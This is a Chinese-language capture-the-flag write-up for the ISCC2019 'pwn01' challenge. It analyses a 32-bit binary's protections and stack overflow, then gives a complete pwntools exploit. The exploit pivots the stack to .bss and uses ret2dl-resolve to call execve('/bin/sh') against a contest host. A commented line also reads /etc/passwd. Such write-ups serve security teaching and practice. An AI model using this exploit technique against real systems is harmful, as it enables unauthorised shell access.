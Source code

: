 ## pwn01

首先分析文件

Linux32位程序，开了NX和Partial RELRO

```shell
$ file pwn01
pwn01: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c1f12d4c211267af2646f60f57e1dce2086fd028, not stripped
$ checksec  pwn01
[*] '/mnt/c/workspace/ctf/ISCC2019/PWN/pwn01'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

main函数存在溢出点

![main函数](imgs/main.png)

首先调用read函数，从标准输入中读取至多0xF4240个字节的数据，保存到buf中。其中&buf指向.bss段的起始位置，也就是说我们可以控制bss段上的数据。

然后调用memcpy函数将读取到的数据复制到栈上

最后main函数根据栈上的信息恢复esp和ebp

![main-ass](imgs/main-ass.png)

溢出时会把对应位置的数据破坏掉，导致esp和ebp变成padding的数据，考虑将相应位置的数据换成bss段上的数据。

由于程序的plt表中只有read, memcpy, __libc_start_main这三个函数，以及程序也没有提供其他能利用的函数，所以需要使用return to dl-resolve方法来做这道题，调用libc中的函数来getshell

附上exp

```python
#!/usr/bin/python2
#coding: utf8

from pwn import *
import roputils
import sys

import time

mode = "debug" if len(sys.argv) >0 else "release"

if mode == 'debug':
    session = process("../pwn01")
else:
    session = remote("39.100.87.24", "8101")

bss_start = 0x804A040

#存储栈上的数据
fake_stack_esp = bss_start + 0x200
#放置栈的位置有些要求，因为bss上面就是不可写的text段，所以为了防止程序移动esp到text段，需要向下放
#太往下会导致padding过多，导致我用的socat提示broken pipe
#Though this challenge is using https://github.com/giantbranch/pwn_deploy_chroot
fake_stack_ebp = fake_stack_esp + 0x250

#存储解析符号的结果
fake_resolve_start = bss_start + 0x300

print "bss_start:", hex(bss_start)
print "fake_stack_esp:", hex(fake_stack_esp)
print "fake_stack_ebp:",hex(fake_stack_ebp)
print "fake_resolve_start:", hex(fake_resolve_start)

rop = roputils.ROP("../pwn01")


#篡改栈指针，劫持栈:
payload = "A"*(0x16-0x8) + p32(fake_stack_esp+4) + "BBBB" + p32(fake_stack_ebp)
#padding到fake栈的位置:
payload += "S" * (0x200-len(payload))
#让main函数执行完后调用read函数，将数据写到fake_resolve_start，其中解析符号用的数据的位置为fake_resolve_start + 50
payload += rop.call('read', 0, fake_resolve_start, 100)
#执行完read函数后再去用刚写过去的解析符号用的数据来解析execve的位置
#并调用execve(fake_resolve_start+8, fake_resolve_start, 0)
#即execve("/bin/sh", 指向参数数组的指针, 指向环境数组的指针)
#这里参数无所谓，但必须要有，环境数组的指针为0. 具体为什么需要问出题人怎么魔改的/bin/sh文件
#19-5-11更新：因为sd出题人的catflag.c:43中的一句 if (argc == 1)
#所以直接调用execve函数需要有参数，且只能有一个
payload += rop.dl_resolve_call(fake_resolve_start + 50, fake_resolve_start+8, fake_resolve_start,0)
#gdb.attach(session, '\n'.join(['b*0x080484ae', 'c', "b*0x08048519", "b*system"]))
if mode != 'debug': time.sleep(1)
session.sendline(payload)

#pause = raw_input("enter to continue...")
#准备execve函数的参数
#evecve的第一个参数a为要执行的文件的位置
#第二个参数b为调用这个文件时传递过去的参数，参数要用一个数组存储，以空指针标识参数的结束。参数b为指向这个参数数组的指针
#第三个参数c为指向传递过去的环境变量数组的指针
#这里先放置了参数数组
payload2 = p32(fake_resolve_start+20)#指向参数字符串
payload2 += p32(0)#空指针标识结束
#然后是可执行文件的路径
payload2 += rop.string("/bin/sh")
payload2 += rop.fill(20, payload2)
#然后是参数字符串
payload2 += rop.string("date")
payload2 += rop.fill(50, payload2)
#用于定位execve函数的数据
payload2 += rop.dl_resolve_data(fake_resolve_start + 50, "execve")
if mode != 'debug': time.sleep(1)
session.sendline(payload2)

#session.sendline("cat /etc/passwd")
session.interactive()
session.close()
```





